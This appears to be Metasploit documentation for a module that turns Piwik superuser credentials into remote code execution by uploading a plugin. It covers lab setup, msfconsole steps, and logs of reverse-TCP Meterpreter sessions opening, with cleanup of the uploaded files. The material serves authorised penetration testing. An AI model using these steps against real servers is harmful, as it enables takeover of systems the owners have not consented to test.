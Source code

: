 ## Vulnerable Application

Piwik can be downloaded from the official site [piwik.org](https://piwik.org).
Older builds are also available from [builds.piwik.org](https://builds.piwik.org/).

This module was tested with Piwik versions 2.14.0, 2.16.0, 2.17.1 and 3.0.1

Piwik disabled custom plugin uploads in version 3.0.3. From version 3.0.3 onwards you have to enable custom plugin uploads via the config file.

## Verification Steps

### Install Piwik (Debian/Ubuntu)
1. Install dependencies

    ```
    sudo apt install apache2 php5 php5-mysql \
      libapache2-mod-php5 mariadb-server unzip php5-gd php5-curl
    ```
2. Download latest version of piwik (or the version of your choice from [builds.piwik.org](https://builds.piwik.org/))

    ```
    wget https://builds.piwik.org/piwik.zip
    ```

3. Unzip Piwik into webroot

    ```
    unzip -d /var/www/html/ piwik.zip
    ```

4. Make the webserver user the owner of piwik

    ```
    chown -R www-data:www-data /var/www/html/
    ```

5. Create a new user and database for piwik. If you want to run multiple versions in parallel use a different database for each install (user is optional).
This example assumes your MySQL root password is **password**

    ```
    mysql -u root -ppassword -e "CREATE DATABASE piwik;"
    mysql -u root -ppassword -e "CREATE USER piwik@localhost;"
    mysql -u root -ppassword -e "SET PASSWORD FOR piwik@localhost=PASSWORD('piwik');"
    mysql -u root -ppassword -e "GRANT ALL PRIVILEGES ON piwik.* TO piwik@localhost;"
    mysql -u root -ppassword -e "FLUSH PRIVILEGES;"
    ```

6. Add a config setting to PHP to stop piwik complaining about it

    ```
    echo always_populate_raw_post_data=-1 > /etc/php5/apache2/conf.d/99-piwik.ini
    ```

7. Finally restart Apache HTTPD

    ```
    service apache2 restart
    ```

### Pwn Piwik
1. Install the application (see installation steps above)
2. Start msfconsole
3. Do: ```use [module path]```
4. Do: ```set RHOST [Domain/IP]```
5. Do: ```set RPORT [Port]```
6. Do: ```set TARGETURI [installation directory]```
7. Do: ```set SSL [True/False]```
8. Do: ```set USERNAME [valid Piwik superuser credentials]```
9. Do: ```set PASSWORD [valid Piwik superuser credentials]```
10. Do: ```run```
11. You should get a shell.

## Options

**TARGETURI**

Path of the Piwik installation.

**USERNAME**

Valid username for a Piwik superuser account.

**PASSWORD**

Valid password for a Piwik superuser account.

## Scenarios

### Run with a installation of Piwik 3.0.1

```
msf > use exploit/unix/webapp/piwik_superuser_plugin_upload
msf exploit(piwik_superuser_plugin_upload) > set TARGETURI /piwik/
TARGETURI => /piwik/
msf exploit(piwik_superuser_plugin_upload) > set RHOST 192.168.56.2
RHOST => 192.168.56.2
msf exploit(piwik_superuser_plugin_upload) > set username firefart
username => firefart
msf exploit(piwik_superuser_plugin_upload) > set password firefart
password => firefart
msf exploit(piwik_superuser_plugin_upload) > options

Module options (exploit/unix/webapp/piwik_superuser_plugin_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   firefart         yes       The Piwik password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.56.2     yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /piwik/          yes       The URI path of the Piwik installation
   USERNAME   firefart         yes       The Piwik username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Piwik

msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[+] Seems like the Marketplace plugin is already enabled
[*] Generating plugin
[+] Plugin SDsiXxPMgt generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.2:43169) at 2017-02-13 23:03:29 +0100
[+] Deleted plugins/SDsiXxPMgt/plugin.json
[+] Deleted plugins/SDsiXxPMgt/SDsiXxPMgt.php

meterpreter > sysinfo
Computer    : web
OS          : Linux web 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64
Meterpreter : php/linux
```

### Run against Piwik 2.x

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 2.14.0
[*] Generating plugin
[+] Plugin zZETuwYkzB generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.2:43182) at 2017-02-13 23:05:27 +0100
[+] Deleted plugins/zZETuwYkzB/plugin.json
[+] Deleted plugins/zZETuwYkzB/zZETuwYkzB.php
```

### Sample output of running with invalid credentials

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:test...
[-] Exploit aborted due to failure: no-access: Failed to authenticate with Piwik
[*] Exploit completed, but no session was created.
```

### Sample output of running with non superuser user

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using test:firefart...
[+] Authenticated with Piwik
[*] Checking if user test has superuser access
[-] Exploit aborted due to failure: no-access: Looks like user test has no superuser access
[*] Exploit completed, but no session was created.
```

### Sample output of Piwik 3.x with disabled Marketplace plugin

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[*] Marketplace plugin is not enabled, trying to enable it
[+] Marketplace plugin enabled
[*] Generating plugin
[+] Plugin TuwgJygjEu generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.2:43246) at 2017-02-13 23:08:36 +0100
[+] Deleted plugins/TuwgJygjEu/plugin.json
[+] Deleted plugins/TuwgJygjEu/TuwgJygjEu.php
```
